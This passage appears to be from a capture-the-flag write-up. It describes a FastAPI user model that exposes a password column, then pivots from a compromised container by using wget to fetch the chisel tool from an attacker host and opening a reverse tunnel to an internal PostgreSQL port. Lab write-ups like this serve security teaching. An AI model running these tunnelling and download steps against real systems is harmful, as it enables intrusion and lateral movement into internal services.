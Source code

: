 Even though the user object that came back via the API only showed `id`,
`email`, and `username`, there's also a `password` column in the DB.
That's because the of the model that's defined in `api/models.py`:



    class userDB(BaseModel):
        id: int
        email: str
        username: str



It's invoked in each of the routes in `api/users.py`. For example:



    # List users
    @router.get('/',response_model=List[userDB], status_code=201, dependencies=[Depends(is_logged), Depends(is_admin)])
    async def get_users(request: Request):

        return await crud.get_users()



### Database

#### Chisel Tunnel

I'll grab the latest release from the [Chisel release
page](https://github.com/jpillora/chisel/releases/tag/v1.8.1) and
(serving it with Python) upload it to the container:



    /tmp # wget 10.10.14.6/chisel_1.8.1_linux_amd64
    Connecting to 10.10.14.6 (10.10.14.6:80)
    chisel_1.8.1_linux_a 100% |********************************| 8188k  0:00:00 ETA



I'll now start the server, changing the listening port because Burp is
already listening on the default of 8080, and allowing for clients to
open up reverse tunnels:



    oxdf@hacky$ /opt/chisel/chisel_1.8.1_linux_amd64 server -p 8000 --reverse
    2023/03/01 15:27:13 server: Reverse tunnelling enabled
    2023/03/01 15:27:13 server: Fingerprint ybrz1cfmVu7k7CBD0xbNbHyFj1iM1q+Hyes16akTrl4=
    2023/03/01 15:27:13 server: Listening on http://0.0.0.0:8000



I'll connect from the container:



    /tmp # ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:5432:172.22.0.1:5432


